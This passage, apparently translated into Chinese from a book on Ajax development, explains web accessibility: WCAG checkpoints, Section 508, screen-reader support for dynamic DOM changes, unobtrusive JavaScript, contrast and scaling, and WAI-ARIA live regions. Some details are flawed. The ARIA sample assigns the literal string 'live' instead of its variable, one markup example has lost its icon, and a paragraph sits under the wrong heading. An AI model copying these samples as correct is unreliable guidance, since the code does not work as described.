其他通过颜色或形状（例如使用 CSS 将错误字符串显示为红色）显示信息的方法，也必须提供一种无需视觉提示即可确定相同信息的方法。以下是一个示例（使用内联样式展示颜色的使用），展示了一个无障碍的错误消息：

```
<span style="color: #900; background-color: #fff;">
    
    If this were a virus you would be dead now
</span>
```

使用这样的技术，能够看到图像和样式的用户将看到图标（一个红色的“X”或其他有意义的图标）和以红色文本显示的错误消息。色盲用户仍然会看到图标（只要它不仅仅依赖颜色来显示其含义），这表明其后的消息传达了错误信息。使用屏幕阅读器的用户会在消息本身之前听到“错误”。

不幸的是，优先级 1 的检查清单提供了一个简单的“出路”，形式是指向无障碍等效内容的链接，供开发者拒绝将其放入符合标准的标记中时使用。请注意，尽管措辞与实际的检查项不同，<sup>1</sup> 但前一句使用了“拒绝”一词。因为现代浏览器在作者知道如何操作的情况下，都使得创建无障碍 Web 应用程序变得非常容易，所以不学习如何编写无障碍标记（即使只是为了满足优先级 1 的检查清单）源于开发者对支持用户的拒绝。

提供一个指向 Web 应用程序无障碍版本的链接，不仅让需要无障碍界面的用户感觉自己是二等公民，而且还要求对原始界面所做的任何更改都必须在替代网站上再做一次。这种冗余的维护创造了大量失败的机会，并且需要比默认满足无障碍要求的网站付出更积极的努力来保持网站的无障碍性。简而言之：第一次就编写一个无障碍的 Web 应用程序意味着后期工作更少，并且从一开始就能拥有更满意的用户。

<sup>1</sup> “如果所有其他方法都失败了（优先级 1）11.4：如果在尽最大努力后，您仍无法创建无障碍页面，请提供一个链接，指向一个使用 W3C 技术、无障碍、具有等效信息（或功能）且更新频率与不可访问（原始）页面相同的替代页面”（W3C, 1999）。

##### 2.1.1.2 优先级 2

优先级 2 的检查点涵盖了很多内容，因为它们描述了许多更像是最佳实践而非无障碍界面要求的建议。换句话说，虽然屏幕阅读器可能能够处理一个包含过时标记和基于表格布局的格式错误的文档，但朗读的界面对用户来说可能意义不大。优先级 1 的检查清单在描述无障碍页面的绝对最低要求后结束，而优先级 2 的检查清单则提供了方法，以提供（在实现得当的情况下）给有各种无障碍需求的用户一个体面的用户体验。

此外，界面的任何元素，如果有一套可用的标记来显示它，就应该使用标记（而不是非标记方法）来呈现。例如，当显示数学公式时，使用 MathML（一种以机器可通信方式描述数学的语言）而不是显示该等式或公式的图像。例如，以下标记用于表示一个半径为 z、厚度为 a 的圆盘的面积，比图像渲染更具无障碍性。这也意味着编写标记的开发者不必担心图像的替代文本，因为浏览器会为用户解释原始标记，如图 2.1 所示。

```
<math xmlns="&mathml;">
  <mi>&pi;</mi>
  <msup>
    <mi>z</mi>
    <mn>2</mn>
  </msup>
  <mi>a</mi>
</math>
```



图 2.1 前述 MathML 示例在浏览器中的渲染效果。

正如许多检查项所描述的那样，为了达到 WCAG 2 级标准，Web 应用程序必须使用语义化标记。任何标题都必须正确使用 h1 到 h6 标签，列表必须使用描述和组织列表的可用标记（dl、ol 和 ul），引用必须使用可用的标记，而不是简单地用引号包围给定字符串。


## 第2章 可访问性

> 此要求为编写标记的开发者带来了一个难题，因为IE实际上并不支持用于行内引述的`q`标签。解决方法包括：使用CSS破坏其他所有浏览器的显示，然后以一种连HTML 4规范都表明不应采用的方式，使用`&ldquo;`和`&rdquo;`包裹字符串；以语义上不正确的方式使用`blockquote`（屏幕阅读器依赖此标签）；使用JavaScript插入`&ldquo;`和`&rdquo;`字符，从而只在IE中产生无效字符，尽管这对大多数使用屏幕阅读器的用户来说只是增加了不必要的字符；以及实施其他同样不令人满意的解决方案。

使用语义化标记的规则也延伸至使用CSS而非`table`来管理页面布局。`table`标签存在的唯一目的是显示表格数据，将其用于任何其他用途都会创建不灵活的布局，不仅会混淆屏幕阅读器，还会给负责维护标记的人员带来无尽的麻烦。使用CSS进行页面布局可确保Web应用程序的页面结构保持连贯，因为页面的标记在语义上正确地定义和关联了元素。

然而，在显示表格数据时，必须使用`table`标签（及其支持标签）。幸运的是，这既有利于标记编写者，也利于用户。使用`thead`、`tbody`和`tfoot`标签，每个标签都包含相应的`th`标签或`td`标签集合（对于`tbody`），为脚本和样式提供了语义上的支撑点。紧跟在开始的`table`标签之后的`caption`标签，正如其名所示；允许在不失去外部相邻`div`语义连贯性的情况下为表格添加标题。因此，`caption`标签为即将读给用户的表格标题提供了上下文。通过在适当时为`table`添加`summary`属性，使用屏幕阅读器的用户将能更好地了解`table`在组织什么，避免迷失在表格单元格的海洋中。

> IE在加载完`table`的所有内容之前不会渲染该`table`。这意味着当一个`table`包含数千行数据时，IE用户将只能看到空白屏幕，直到整个内容加载完毕，然后数据会一次性出现在屏幕上。为了让用户不必等待，你可能需要使用某种筛选或分页（或两者兼用）。这可能需要更多步骤才能让用户获取感兴趣的信息，但会更快地将信息呈现给他们。

为了创建可访问的表单，你必须使用正确标记的表单输入，并在标签与其输入之间建立显式关联，这实际上可以说是一举三得。首先，它创建了屏幕阅读器用来准确描述表单给用户的语义正确的标记。其次，这种语义关联为所有人创建了更易于使用的表单，因为浏览器往往允许通过聚焦标签来选择其输入，这提供了更直观的界面（特别是对于复选框和单选按钮输入，因为使用标签大大增加了选择输入的可点击区域）。最后，它默认提供了更易于设置样式的结构。

考虑以下表单标记：

```
<form action="?step=2" id="registration">
<label for="username" tabindex="1">
        Username:
        <input id="username" name="username" type="text" />
</label>
<label for="password" tabindex="2">
        Password:
        <input id="password" name="password" type="password" />
</label>
<label for="password_confirm" tabindex="3">
        Confirm Password:
        <input id="password_confirm" name="password_confirm"
                type="password" />
</label>
<input id="submit" name="submit" type="submit"
                value="Next Step" tabindex="4" />
</form>
```

这个表单不仅拥有简洁、易读的标记，而且其结构便于编写CSS来显示它（如下所示）：

```
form {
background-color: #666;
    margin: 0;
    overflow: auto;
    padding-top: 50px;
    padding-right: 20%;
    padding-bottom: 50px;
    padding-left: 20%;
}
label {
    clear: both;
    display: block;
    float: left;
    width: 100%;
}
label input {
    display: block;
    position: relative;
    left: 50%;
    top: -1.4em;
}
#submit {
    float: right;
    width: auto;
}
```

两者结合时，表单以一种易于导航且通常用于在线表单（如第1章“可用性”中写的表单）的方式呈现；此界面如图2.2所示。



**图 2.2** 由可访问的XHTML和CSS渲染出的可用表单。

##### 2.1.1.3 优先级3

优先级3检查清单提供了多项实践，在很大程度上，这些实践旨在增强Web应用程序的可访问性，而非仅仅防止其在可访问性测试中失败。这些实践包括：扩展缩写词和首字母缩略词、标识文档的主要自然语言、为表单控件提供逻辑标签顺序，以及提供跳过多行ASCII艺术图的方法。

扩展缩写词和首字母缩略词很简单；你只需为`abbr`和`acronym`标签添加`title`属性，浏览器随后会将其作为鼠标悬停提示提供给用户。需要注意的一个小细节是，IE实际上并不支持`abbr`标签，但开发者可以通过使用脚本或干脆不在意IE用户无法扩展缩写词来绕过此问题。

标识内容的自然语言也很简单，只需设置`html`标签的`lang`和`xml:lang`属性。这些属性被设置为用户的区域设置键，可以从当前用户的偏好设置或稍作重组的`Accept-Language`头部信息中填充，只要内容与之匹配。此外，得益于XHTML，语言可以设置在标记本身的特定元素上。因此，尽管整个文档的`lang`为`en_US`，但某个特定元素可以包含`fr_FR`，如下所示：

```
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html lang="en" xml:lang="en" xmlns="http://www.w3.org/1999/xhtml">
<head>
<meta http-equiv="Content-Type" content="text/html; charset=utf-8" />
<title>Vincent</title>
</head>
<body>
<h1>Vincent</h1>
<p lang="fr_FR" xml:lang="fr_FR">Vincent Malloy a sept ans, il est toujours poli et fait ce qu'on lui dit.</p>
</body>
</html>
```

为表单控件提供逻辑标签顺序就像添加`tabindex`属性一样简单（前面的注册表单中已包含这些属性）。通过遵循页面结构本身的顺序，并且（通常而言）也遵循页面布局的顺序，无论是使用还是不使用辅助技术的用户，都能更轻松地使用表单。

整个WCAG包含使Web应用程序更易于访问的指南；检查点包括为图像提供替代文本和生成有效的标记；它们还包括为用户提供额外好处的实践，例如扩展缩写词和多语言页面。与任何其他指南一样，WCAG是改进应用程序的工具。如果将其视为需要跨越的障碍，它所能提供的帮助将远不及其潜力。

#### 2.1.2 Section 508

Section 508是美国康复法案的一个组成部分，它要求联邦机构确保残疾联邦雇员的电子和信息技术用户体验与非残疾联邦雇员的用户体验具有可比性。Section 508的1194.22部分涉及基于Web的信息和应用程序，与WCAG一级标准并行，但Section 508在以下要求上有所不同：

- (l) 当页面使用脚本语言显示内容或创建界面元素时，脚本提供的信息必须用辅助技术可以读取的功能性文本进行标识。
- (m) 当网页要求客户端系统上存在小程序、插件或其他应用程序来解释页面内容时，页面必须提供指向符合1194.21(a)至(l)规定的插件或小程序的链接。
- (n) 当电子表单设计为在线完成时，该表单必须允许使用辅助技术的人访问完成和提交表单所需的信息、字段元素和功能，包括所有说明和提示。
- (o) 应提供一种方法，允许用户跳过重复的导航链接。
- (p) 当需要定时响应时，应提醒用户并给予足够的时间来表明需要更多时间" (www.section508.gov/index.cfm?fuseAction=Content&ID=12#Web)。

这些要求中的第一条简单地要求操作页面DOM或以其他方式显示内容的脚本创建符合可访问性标准的内容。作为此要求适用行为类型的一个示例，请注意，使用延迟加载生成界面并以几乎完全空白页面开头的Web应用程序，不能仅仅因为标记扫描符合要求就声称符合Section 508标准。如果生成的界面符合要求，那么它们（假设界面在其他方面没有失败）才可以真实地如此声明。

尽管关于定时响应的条款似乎微不足道，但Ajax驱动的Web应用程序在实现具有持续更新内容的界面时确实需要牢记这一点。一个主要的例子是，页面内XML订阅源被渲染在一个显示链接标题列表的容器中，它可能会每十秒（或其他预定时间段）向服务器发送一次请求以检查新内容，并在适用时显示。特别是当容器一次只显示一个标题时，这项活动对使用屏幕阅读器或患有注意力缺陷多动障碍等认知障碍的人来说是一个挑战；对于那些阅读和消化文本速度比平均水平稍慢的人来说，也是一个问题。在这个例子中，只需添加一个控件来减慢（或加速，对于希望更频繁更新的用户）标题的显示，就能满足Section 508关于定时响应的要求。


尽管第508条指的是美国法律，但许多非政府的就业机会（无论是否在美国境内）都要求具备相关法律知识，因为任何与美国政府签订合同或接受其资助的公司都必须遵守该规定。第508条还增强了WCAG 1.0标准，使其成为Web应用程序的一个良好基准，无论其是否与美国政府有关。

一个应用程序可能拥有的用户群越大，其中部分用户存在视觉、听觉或运动障碍的可能性就越大，这会使他们难以（甚至无法）使用必需的应用程序。通过从一开始就考虑应用程序的无障碍性，开发者可以避免在需求突然出现时仓促应对无障碍性要求的风险；这种临时考虑的无障碍性实现起来，远比将无障碍性作为应用程序核心行为的一部分来实施要困难得多。

### 2.2 屏幕阅读器能够处理Ajax

如果用户无法看到屏幕（以及其中的Web应用程序），他们将需要一些工具来描述并朗读内容。请注意，辅助应用程序必须*描述*并朗读。正如第1章所提及的，语义化标记使得这些描述对于那些（例如）无法一眼看出四个链接之间有何关联的人更加相关和有意义，更不用说它们提供了通往Web应用程序其他部分的导航访问。

Ajax开发者和用户中都存在一个常见的误解，即屏幕阅读器无法处理动态内容。实际上它们可以，但要支持屏幕阅读器中的主流引擎需要时间和理解。一个常见的例子是，Jaws和Windows-Eyes可能会将焦点变化识别为开始朗读的时机，而Home Page Reader则不会。因此，就像编写通用或全面的代码以支持多种浏览器一样，编写动态更改DOM结构的脚本时，只需包含最常用且受支持的屏幕阅读器所需的所有步骤。

尽管使用纯文本浏览器（如Lynx (http://lynx.isc.org)）或屏幕阅读器模拟工具（如Firefox扩展Fangs (www.standards-schmandards.com/projects/fangs)）确实被证明对于在初始页面加载时快速轻松地检查Web应用程序非常有用，但只有使用功能完备的屏幕阅读器，你才能准确且一致地测试动态Web应用程序。由Freedom Scientific (www.freedomscientific.com/fs_products/JAWS_HHQ.asp) 开发的Jaws，占据了与IE在浏览器市场份额中相当一部分市场，尤其在美国。

对于主要开发环境并非Windows和IE的开发者来说，Firefox的Fire Vox (http://firevox.clcworld.net) 扩展最近开始崭露头角，它可以在Windows、Mac和Linux上运行。该扩展最初是作为CLC-4-TTS²的演示而编写，但已被证明相当受欢迎，并且（通过CLC-4-TTS库）成为所有主流屏幕阅读器中第一个支持WAI-ARIA草案指南（见本章后面的第2.5节）的工具。它还提供了MathML支持（Firefox原生支持）和对CSS3语音模块的支持。

#### 2.2.1 内容替换

由于屏幕阅读器是线性工作的，它们不会自动从音频流（构成页面）中的当前位置跳转到被替换内容的容器。为了通知用户DOM已更改并将相关内容带入页面，该元素必须获得焦点；这种通信是通过一个包含类似“切换到虚拟缓冲区”内容的title属性来完成的，以确保屏幕阅读器切换到受影响的元素；此做法也确保用户听到新内容。

下面的两个函数将这种行为抽象出来，以便任何在DOM中替换文本或元素的JavaScript只需调用相应的函数，而无需写出过程中的每个步骤。每个函数都设置title属性，并设置一个onblur事件来移除该title属性（因为一旦用户听到更新的内容并继续操作，界面就不应指示用户在他们想要重新访问相关元素时启用虚拟缓冲区）；脚本还将tabindex设置为-1以确保focus()调用有效，然后将新内容插入DOM并将其焦点带到那里：

```
/**
 * Abstract out the replacement of text to add screen reader support.
 */
function setElementText(container, text) {
    container.setAttribute('title', 'Switch to virtual buffer');
    container.onblur = function() { this.removeAttribute('title'); }
    container.tabIndex = -1;
    container.firstChild.nodeValue = text;
    container.focus();
}
```

```
/**
 * Abstract out the replacement of an element
 * to add screen reader support.
 */
function replaceAndFocusElement(new_element, old_element) {
    new_element.setAttribute('title', 'Switch to virtual buffer');
    new_element.onblur = function() { this.removeAttribute('title'); }
    new_element.tabIndex = -1;
    parent_element = old_element.parentNode;
    parent_element.replaceChild(new_element, old_element);
    new_element.focus();
}
```

² 文本转语音核心库组件（CLC-4-TTS）由Charles L. Chen编写，他也是Fire Vox扩展的作者。

本质上，每个函数在执行DOM操作（文本或元素交换）之前准备目标元素，最后调用元素的`focus()`将其带到用户注意。当这种情况发生时，Jaws（例如）会简单地跳转到焦点元素并朗读其内容。因此，提供某种状态文本（如“更新”或“附加”）作为前缀是有意义的，这样用户就知道阅读器已移动到DOM中的另一个位置。

#### 2.2.2 表单验证

由于表单验证仅由部分内容替换组成，它使用与完整元素替换相同的技术，但被抽象出来，以便可以执行任意数量的替换和更改，然后将它们带到用户注意。使用下面的三个函数，可以轻松地将这种支持添加到任何需要DOM操作来支持屏幕阅读器的地方：

```
function prepareElementForReplacement(element) {
    element.setAttribute('title', 'Switch to virtual buffer');
    element.onblur = function() { this.removeAttribute('title'); }
    element.tabIndex = -1;
}

function highlightElementAfterReplacement(element) {
    element.focus();
}

function notifyOfElementChanges(element) {
    prepareElementForReplacement(element);
    highlightElementAfterReplacement(element);
}
```

通过使用最后一个函数，表单可以执行验证，在适当的位置将错误消息插入DOM，然后通知用户更改。以前面的注册表单为例，以下是在尝试使用包含两个单词的用户名注册用户且未确认密码后生成的源代码：

```
<form action="?step=2" id="registration">
    <div id="messages"><span class="error">Errors found</span></div>
    <label for="username" tabindex="1">
        (Incorrect) Username:
        <input style="" id="username" name="username" type="text" />
    </label>
    <label for="password" tabindex="2">
        Password:
        <input style="background-color: black; color: yellow; font-weight: bold;" id="password"
               name="password" type="password" />
    </label>
    <label for="password_confirm" tabindex="3">
        (Missing) Confirm Password:
        <input id="password_confirm" name="password_confirm"
               type="password" />
    </label>
    <input id="submit" name="submit" value="Next Step"
           tabindex="4" type="submit" />
</form>
```

通过在完成表单验证并报告错误后调用`notifyOfElementChanges(document.getElementById('registration'))`，屏幕阅读器会首先朗读“发现错误”，然后逐一朗读每个表单标签和元素；现在每个输入关联的表单标签中都包含了状态信息。

### 2.3 不唐突的Ajax

在上一节的标记示例中，你可能已经注意到提交按钮中完全没有像`onclick`属性这样的事件处理程序，`form`元素中也没有`onsubmit`。通过在脚本本身中附加`onsubmit`监听器，此实践确保任何意外的脚本错误或加载失败（无论是由HTTP错误还是用户禁用JavaScript引起）都只会导致完整页面加载，而不会使用户丧失功能。


当文档的`load`事件调用其监听器时，ProfileView对象的以下方法（在第3章“客户端应用架构”中完整阐述）将被调用：

```
/**
 * 为该特定视图需要了解的各种事件添加事件监听器。
 */
ProfileView.prototype.init = function() {
    // 表单提交本身
    this.form = document.getElementById('registration');
    // 在这种情况下，如果不存在个人资料表单，
    // 脚本就没有理由将自己附加到任何地方。
    if (!profile) {
        return false;
    }
    this.form.onsubmit = function() {
        ProfileView.prototype.submit.apply(profile, arguments);
        return false;
    };
    // 用于动态表单生成的模板元素
    this.label_template = document.createElement('label');
    var input = document.createElement('input');
    input.setAttribute('type', 'text');
    this.label_template.appendChild(input);
}
```

此方法除了使用负载较轻的`document`对象创建元素作为后续替换的模板外，还将自身的`submit()`方法添加到表单元素的`onsubmit`事件中，随后立即返回`false`。如果某些JavaScript错误碰巧出现（尽管不应出现，但总是为最坏情况编码），表单将简单地通过正常的整页加载进行提交，用户甚至不会注意到差异，除非他们在浏览器中启用了显示JavaScript错误。

一旦JavaScript处理表单并将其交给注册流程的下一步，表单将呈现以下标记：

```
<form action="?step=3" id="registration">
    <div id="messages"></div>
    <label tabindex="1" for="name">
        Alias:
        <input name="name" id="name" type="text" />
    </label>
    <label tabindex="2" for="email">
        Email Address:
        <input name="email" id="email" type="text" />
    </label>
    <label tabindex="3" for="color">
        Favorite color:
        <input name="color" id="color" type="text">
    </label>
    <input id="submit" name="submit" value="Next Step"
           tabindex="4" type="submit" />
</form>
```

尽管JavaScript生成了此DOM结构，但它仍然缺乏任何内联样式、内联事件监听器和其他直接钩子，这些在手动编写标记时通常会被避免。在任何步骤中，如果某些东西中断了JavaScript，应用程序仍然可以向前推进。同样重要的是，在应用程序的任何给定步骤中，呈现给用户的标记所提供的接口，与用户首次导航到页面时一样，对辅助技术具有可访问性。

此实践还使Web应用程序对所有用户更具可用性，因为它保留了用户期望的标记，或者至少保留了用户期望的标记的*行为*。例如，在大多数现代浏览器中，用户可以按住一个键（macOS中的命令键）同时点击链接或提交表单，以便在新标签页中打开操作。如果标记使用内联事件处理程序而不是遵循标准，该行为将中断，使用户感到沮丧，他们可能选择停止使用Web应用程序或创建用户脚本以弥补对预期操作支持的不足。在任何一种情况下，像内联事件处理程序这样的编码快捷方式都会让开发者看起来像是在编写应用程序时偷工减料，或者他们只是想强制用户进入某种使用模式，而这实际上从来都行不通。

### 2.4 考虑无障碍性的设计

为了简化可访问的Web应用程序的设计和开发，将某些想法纳入初始应用程序设计会使所有相关人员的事情变得更容易。如果不这样做，则会迫使尝试在开发过程的最后一步中强行加入无障碍性。对设计师来说幸运的是，应用程序的无障碍性主要来自其实现而非初始设计，但某些方面的无障碍性确实源于那些初始的模型。

#### 2.4.1 高对比度设计

虽然大多数操作系统都有增强屏幕本身对比度的标准方法，但这无法补偿文本颜色与元素背景过于接近的设计。当前的WCAG 2.0文档要求两种亮度对比度比率（www.w3.org/TR/WCAG20/appendixA.html#luminosity-contrastdef）之一：5:1用于Level 2，或10:1用于Level 3。

实际上，此要求意味着，如果页面文本设置了显式的颜色值，则还需要为其背景颜色设置显式的值。此格式必须在两者之间提供足够的对比度，无论文本是否具有背景图像。图像可能无法加载，无论是由于用户的偏好（许多移动浏览器用户会禁用图像，但不禁用CSS，如果他们按流量计费），还是由于加载过程中的某些意外。保持背景颜色更暗或更亮，可以更容易地提高亮度对比度比率，从而为设计师提供更大的灵活性，而不会妨碍低视力用户的使用。

在黑色背景上使用颜色rgb (100, 100, 100)的亮度对比度比率约为3.55，低于Level 2和Level 3。在增强对比度并具有相似颜色时，对比度增强实际上降低了可读性（见图2.3）。


**图2.3** 对比度增强前后的黑色背景上的深色文本。

在黑色背景上使用颜色rgb (150, 150, 150)的亮度对比度比率约为7.22，满足Level 2，但未达到Level 3。在此级别进行增强，与其说是增加文本和背景之间的对比度，不如说是使字母更清晰（见图2.4）。

在黑色背景上使用颜色rgb (200, 200, 200)的亮度对比度比率约为12.72，超过了Level 2和Level 3。在此级别进行增强也会使字母更清晰（见图2.5）。



**图2.4** 对比度增强前后的黑色背景上的较浅文本。



**图2.5** 对比度增强前后的黑色背景上的明亮文本。

高对比度设计不仅适用于无障碍性问题，也适用于更通用的可用性问题。不仅视力往往会随着年龄增长而下降，显示器也是如此。用户可能视力完美，但老化的屏幕可能会施加人为的障碍，无意中模拟了低视力。

#### 2.4.2 可缩放界面

此要求也处于可用性和无障碍性重叠的广阔灰色区域。许多设计师有坏习惯，假设每个人都与他们拥有相同或相似的屏幕分辨率，并坚持像素级完美的实现。这不仅对编写标记和样式的Web开发人员提出了完全不现实的要求，而且还通过按像素设置尺寸禁止缩放页面元素。

现代浏览器通常允许缩放使用像素设置的`font-size`的文本，但不会缩放尺寸设置为像素的容器。这意味着虽然文本可能增加到可读的点数，但导致其换行的容器将减少单行上的单词数量，这使得阅读变得更加困难。

> IE不会缩放使用基于像素的字体大小设置的文本，Web设计师通常不鼓励这种技术，因为具有更高分辨率的显示器可以在较小的屏幕区域内容纳更多像素。这导致文本极其微小，难以阅读。另一方面，Opera会同时缩放容器、图像和文本，从而产生完全可缩放的Web界面，而不会丢失在整体屏幕缩放时字体的清晰度。


#### 2.4.3 易于定位的控件

屏幕放大器可以通过放大整个可见屏幕来解决这个问题，这样物理屏幕就会显示屏幕的较小部分。不过，使用这种方法的缩放技术往往会创建非常模糊的显示，因为它们只是用更多的像素来表示屏幕的单个像素，而不是进行智能缩放（参见图2.6-2.8）。



**图2.6** 未进行任何缩放的屏幕。



**图2.7** 使用浏览器内置的文本缩放功能。注意图像没有缩放，但文本渲染良好。



**图2.8** 使用MacOS 10.4内置的屏幕放大功能，屏幕可以轻松缩放；然而，抗锯齿可能会使复杂字体变得难以阅读。

作为设计师，支持这种行为意味着创建的模型需要附带注释，说明样式应如何处理页面缩放或调整大小（因为这两种操作对页面布局的影响类似）。哪些元素必须绝对保持其像素尺寸（通常是侧边栏，它们不需要像页面其他部分那样多的关注）？当页面尺寸变化时，元素应如何流动？

Web应用程序界面布局不会也无法保持像素完美，那些试图强制实现这一点的人很快就会发现这种努力将会失败。浏览器有自己的DOM规范实现，所有的渲染引擎都有自己独特的缺陷和怪癖，使得像素完美的设计在Web应用程序中无法实现。相反，如果设计师接受并顺应基于Web界面的流动性，Web应用程序对用户来说会显得更直观，并且更能让人感觉到背后的应用程序理解技术而不是与之对抗。

当使用激光鼠标、触控板或轨迹球在屏幕上移动光标时，您可以轻松地定位界面中的像素大小的控件。对于那些无法使用这些设备的人，无论是由于行动障碍还是关节炎，这个动作突然变得不可能。DHTML菜单，尤其是多级菜单，在要求光标沿狭窄路径移动以保持所需菜单可见以供使用时，已经给用户带来了挑战。

现在想象一下使用操纵杆或解释您头部运动以在屏幕上移动指针的设备来导航相同的菜单结构。当使用用户触发的动作来隐藏界面元素（例如点击小部件的“关闭”图标或点击菜单外部以将其折叠）以及一个正确可缩放的界面时，这些任务变得不那么令人生畏。

从设计角度来看，使用稍大的字体和更多边距来布局元素，使其更易于阅读，也便于用户与页面上的元素进行交互。如果界面有太多功能无法利用稍大的区域，那么界面本身可能需要重新审视，以保持事物的可管理性。

> > 添加让用户通过键盘导航界面的能力，不仅有助于那些无法使用鼠标的人，也有助于那些不愿使用的人；后者包括执行数据输入任务的人或使用Firefox的“查找时输入”功能来选择和激活链接的人。为用户提供多种方式与界面交互通常会使更多的用户更轻松地使用界面。

### 2.5 WAI-ARIA

W3C WAI小组有一个针对ARIA（无障碍富互联网应用）的工作草案，它解决了简单标记的许多问题，这些问题原本需要脚本解决方案。（这些解决方案包括通知屏幕阅读器特定DOM元素已更改的方法。）它还提供了一种更动态的Web应用程序方法来关联元素，允许控件与受影响的元素配对，并为屏幕阅读器用户或任何其他利用ARIA的客户端提供更具凝聚力的体验。

当前ARIA工作草案的“实时区域”方面引入了一套特别有用的功能，这些功能引用自XHTML，一旦除Fire Vox之外的屏幕阅读器支持它，将以一种相当笨拙和过时的方式来呈现脚本——例如本章“屏幕阅读器可以处理Ajax”部分所示的脚本。它允许将`aaa:live`属性设置为`off`、`polite`、`assertive`或`rude`的元素不仅能够自动将更新的DOM元素带到用户的注意中*而不会*丢失页面中的当前上下文，而且还能根据指定的程度进行。当设置为`off`（默认值）时，它不会通知用户。当设置为`polite`时，它将等到用户似乎空闲时再通知用户更新。当设置为`assertive`时，它将在最早的便利时间（通常在当前句子结束时）更新用户。当设置为`rude`时，它将中断用户当前可能正在说的任何内容，并且在大多数情况下会显得相当刺耳；幸运的是，它很可能只用于致命错误或类似情况。

不幸的是，当前用于通知屏幕阅读器DOM更改的脚本技术不仅属于`rude`类别（因为脚本无法告诉屏幕阅读器至少完成当前句子），而且它们甚至更进一步，将用户从当前上下文中移开，并将焦点放在更改的元素上以便他们能够听到它。这并不意味着Ajax无法与屏幕阅读器配合工作，但它确实意味着使用屏幕阅读器的用户将拥有更同步的应用程序体验，并且不会听到DOM中发生的每一个小更改，除非这样做有意义；这种线性应用程序体验将持续到屏幕阅读器开始支持WAI-ARIA。

通过使用ARIA提供的实时区域，属性可以通过将`aaa:control`属性设置为它们控制的元素的ID来将元素标记为其他元素的控件。这会导致目标元素的更新在其定义的控件作为更改来源时立即被读出。这为用户提供了对其操作的即时反馈，无论涉及何种辅助技术，都能提供更具响应性的界面。

ARIA引入的`atomic`属性直接适用于本章前面给出的关于支持屏幕阅读器的客户端表单验证的示例。该属性本质上声明了其元素对其所有子元素的责任，因此对`atomic`元素的任何子元素的更改都将触发其语音更新，而不是受影响的子元素。因此，无需运行一系列JavaScript命令来通知用户表单中的错误，表单可以设置`aaa:atomic="true" aaa:live="polite"`属性，客户端可以处理其余部分，无需任何额外的脚本。

WAI-ARIA提供了比此处涵盖的更多的替换通知控制，但需要屏幕阅读器的支持才能将其带给主流用户。然而，为此，开发人员需要现在就开始为其编码。如本章前面所述，Fire Vox已经提供了对`aaa:live`属性的支持，以及WAI-ARIA的其他功能，因此开发人员今天就可以使用此技术进行编码和测试。采用前面的JavaScript示例代码，只需稍作调整即可支持WAI-ARIA：

```javascript
function prepareElementForReplacement(element) {
    var live = (arguments[1]) ? arguments[1] : 'polite';
    element.setAttributeNS(
        'http://www.w3.org/2005/07/aaa',
        'aaa:atomic',
        'yes'
    );
    element.setAttributeNS(
        'http://www.w3.org/2005/07/aaa',
        'aaa:live',
        'live'
    );
}
```


上述函数仅适用于尚未标记适当 ARIA 属性的元素；本示例将展示对屏幕阅读器的支持会变得多么简单，尤其是在它们支持 ARIA 之后。由于屏幕阅读器已经能够处理 Ajax 及其对 DOM 的动态操作，开发者现在只需要更精细地控制屏幕阅读器是否以及如何打断用户以通知他们更新，或者更精细地控制用户操作与 DOM 变化之间的直接关联。

# 第 3 章


## 本章内容

- ■ 3.1 对象与事件触发 68
- ■ 3.2 模型-视图-控制器设计模式 87
- ■ 3.3 事件驱动应用开发 104

架构是一个日益重要的话题，尤其是在考虑在单一 Web 应用中运行多个 Ajax/DHTML 库的可能性时；事实上，客户端应用架构需要与服务器端应用架构同等程度的关注。架构可能因整体应用设计而大相径庭，但都需要灵活性以动态响应用户的操作。

与传统的全页面加载 Web 应用相比，事件驱动架构在维护状态的应用中蓬勃发展。虽然服务器端应用必须在每次请求时重建其状态，但客户端应用可以为多个操作维持一个持续的界面，同时仍然能够在必要时从服务器端数据重建客户端状态。

